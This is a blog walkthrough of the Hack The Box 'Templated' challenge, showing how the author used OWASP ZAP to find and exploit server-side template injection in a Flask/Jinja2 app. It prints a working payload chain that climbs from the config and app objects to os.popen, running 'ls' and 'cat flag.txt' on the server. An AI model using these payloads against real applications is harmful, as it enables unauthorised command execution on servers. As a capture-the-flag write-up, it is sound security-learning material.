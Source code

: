 +++
showdate = true
title = "HTB Web Challenge walkthrough with OWASP ZAP: Templated"
date = 2022-10-04
url = "/blog/templated_htb_web_challenge_zap_walkthrough"
+++

So I decided to take the [Hack The Box(HTB)](https://www.hackthebox.com/) Web Challenges with [OWASP ZAP](https://www.zaproxy.org/). This blog is a walkthrough of the "Templated" web challenge in HTB, shout out to [clubby789](https://app.hackthebox.com/users/83743) for creating this challenge.

# What is ZAP?
Zed Attack Proxy (ZAP) is the world's most popular open source web application scanner. ZAP is free to use and tons of different add-ons are available to extend its functionality. Even though ZAP is officially called a "web application scanner", we, the contributors and the core team of ZAP, sometimes unofficialy call it an "Integrated Hacking Environment (IHE)".

You can install ZAP from [here](https://www.zaproxy.org/download/). Or you can also install a "dev" build by following the instrcutions [here](https://www.zaproxy.org/docs/developer/quick-start-build/). I would recommend you to install the "dev" build as it has the latest unreleased features :P.

# Recon process
After installaing ZAP, head to the manual explore option in the quick start panel in ZAP's workspace window (More about ZAP's GUI [here](https://www.zaproxy.org/getting-started/#zap-desktop-ui)). I'm enabling HUD, but you can skip that option if you want to. Copy the docker instance's socket address and paste it in the "URL to explore" field. Then click on "Launch browser" button. This will open up a new tab in your browser. You can use this tab to explore the target. I'm using Firefox for this walkthrough.

![ZAP GUI image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/manual%20explore.png?raw=true)

After launching the browser we get th following screen:

![Templated Web Challenge Initial Screen](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/starting%20page.png?raw=true)

"Powered by Flask/Jinja2"... Huh!... So, initially, the site has nothing much to show apart from this "statement". Since the challenge name is "Templated" and it's an EASY challenge, it's template injection for sure :P. Let's discover more about the site.

In the response I find this `Server: Werkzeug/1.0.1 Python/3.9.0`. Flask is a python web framework and Werkzueg (I have no idea how to pronounce this) is a Web Server Gateway Interface (WSGI) library. WSGI is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request (More about WSGI [here](https://wsgi.readthedocs.io/en/latest/index.html)). Now Werkzeug has a debug console, which can be accessed at `/console`. However this has a [debugger pin](https://werkzeug.palletsprojects.com/en/2.2.x/debug/#debugger-pin) by default. 

On visiting https://<socket>/console I find this:
![Error 404 Image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/error%20page.png?raw=true)
So there is no debug console, ie, debugger is not enabled, but, the 'console' was reflected. Just to be sure that it's templated, I tried a new random endpoint `/test` and it was reflected too. So, it's templated for sure :P.

# A short background on SSTI
SSTI or Server Side Template Injection is a technique in which attacker injects malicious code into a server using the native template syntax. Read more: 
- [OWASP SSTI](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
- [Portswigger labs](https://portswigger.net/web-security/server-side-template-injection)
- [James Kettle's whitepaper](https://portswigger.net/kb/papers/serversidetemplateinjection.pdf)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)


# SSTI with Jinja2

Werkzeug uses jinja2 templates and flask uses werkzeug. So I did what everyone does, I googled for "flask jinja2 ssti". Found this wonderful [blog](https://www.lanmaster53.com/2016/03/exploring-ssti-flask-jinja2/) from [Timothy Tomes](https://www.linkedin.com/in/lanmaster53/). 

So I tried the following the browser address bar `https://<socket_addr>/console{{7*7}}` and returned `console49` could not be found. Great!

Time to sniff out secrets and possibly find out the flag. Tried `https://<socket_addr>/console{{config}}` and got this:
![Config Image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/config%20reflection.png?raw=true)
Welp!! ... found everything other than the flag.

Let's try out something more with the config object using ZAP's Request Editor. This can be done easily by right clicking on the request in ZAP's workspace and selecting "Open/Resend with Request Editor". I tried modifying the URL in request header, appending the following template to try and get an injection:
```python3
{{config.from_object("os")}}
``` 
but returned it `None` :). SWEET! :) 

We can get to the *os* library using something/concept called *Method Resolution Order (MRO)*. (More about MRO [here](https://levelup.gitconnected.com/method-resolution-order-in-python-5afbaecc25e0)).
Now let's discover the MRO of the config object. I tried: 
```python3
{{config.__class__.mro()}}
```
hit send and got this:

![URL encoded config image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/config%20mro.png?raw=true)

The encoded output can be a pain in the eyes so you can select the response body, right click in the reposne body and click on the "Encode/Decode/Hash" option. In Decode panel under "HTML Decode" you can see the famailar python3 output.

![URL Decoded image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/decode.png?raw=true)

From this we can see conclude that we cannot access the os module from here as there is no reference to *\_\_globals\_\_* :) . Without the *\_\_globals\_\_* reference we cannot access *\_\_builtins\_\_* and without *\_\_builtins\_\_* we cannot access the os module. :)

So time to try something else. Let's try and see if the site has been configured/ written like the flask bolier plates using an *app* object. I tried `{{app.__class__.mro()}}` and got a 500 error. :/

Let's try this now 
```python3
{{app.__class__.__init__.__globals__}}
``` 
It works! We are in business!! :D

![App globals image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/global.png?raw=true)
We can now use *\_\_builtins\_\_* to access the os module. Let's try 
```python3
{{app.__class__.__init__.__globals__.__builtins__}}
``` 
and gotcha:

![App builtins image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/builtins.png?raw=true)

Now let's import the os module and get the user ids. I tried 
```python3
{{app.__class__.__init__.__globals__.__builtins__.__import__("os").getuid()}}
``` 
and :)

![UserId image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/userid.png?raw=true)

# Time to get the flag

Well we are "in". So now time to discover the server. I tried 
```python3
{{app.__class__.__init__.__globals__.__builtins__.__import__("os").popen("ls").read()}}
```
and got this:

![ls image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/ls%20result.png?raw=true)

So we have a *flag.txt* file. Let's try to read it. I tried
```python3
{{app.__class__.__init__.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read()}}
``` 
and got this:

![Flag image](https://github.com/ArkaprabhaChakraborty/ArkaprabhaChakraborty.github.io/blob/main/data/images/templated%20flag.png?raw=true)

There is our 31337 string. :)

# Conclusion

This was a fun challenge. SSTI's like these can be stopped if the input is sanitized and validated properly. That being said it was a very beginner friendly challenge. I hope you enjoyed reading this writeup/blog. :)
